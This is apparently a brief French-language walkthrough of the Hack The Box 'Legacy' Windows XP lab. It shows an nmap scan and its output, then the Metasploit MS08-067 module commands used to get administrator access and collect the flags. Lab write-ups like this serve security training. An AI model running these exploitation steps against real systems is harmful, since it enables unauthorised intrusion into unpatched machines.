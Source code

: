 # Legacy [Windows] Easy

**— 1.Enumeration —**

`nmap -sS -sV -Pn 10.10.10.4`

```perl
Starting Nmap 7.92 ( https://nmap.org ) at 2022-04-02 17:36 EDT
Nmap scan report for 10.10.10.4
Host is up (0.016s latency).
Not shown: 997 filtered tcp ports (no-response)
PORT     STATE  SERVICE       VERSION
139/tcp  open   netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open   microsoft-ds  Windows XP microsoft-ds
3389/tcp closed ms-wbt-server
Service Info: OSs: Windows, Windows XP; CPE: cpe:/o:microsoft:windows, cpe:/o:microsoft:windows_xp

Host script results:
|_smb2-time: Protocol negotiation failed (SMB2)
|_clock-skew: mean: 5d00h33m16s, deviation: 2h07m16s, median: 4d23h03m16s
|_nbstat: NetBIOS name: LEGACY, NetBIOS user: <unknown>, NetBIOS MAC: 00:50:56:b9:00:ed (VMware)
| smb-security-mode: 
|   account_used: <blank>
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb-os-discovery: 
|   OS: Windows XP (Windows 2000 LAN Manager)
|   OS CPE: cpe:/o:microsoft:windows_xp::-
|   Computer name: legacy
|   NetBIOS computer name: LEGACY\x00
|   Workgroup: HTB\x00
|_  System time: 2022-04-08T02:39:31+03:00

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 51.75 seconds
```

En cherchant des exploit pour les différent services nous tombons sur un exploit de samba.

MS08-067 et l’exploit de metasploit `exploit/windows/smb/ms08_067_netapi`

**— 2. Exploitation —**

`set rhosts 10.10.10.4`

`set lhosts tun0`

`run`

Il n’y a plus qu’a récupérer les 2 flags user et admin dans les répertoires, nous sommes déjà admin sur la machine.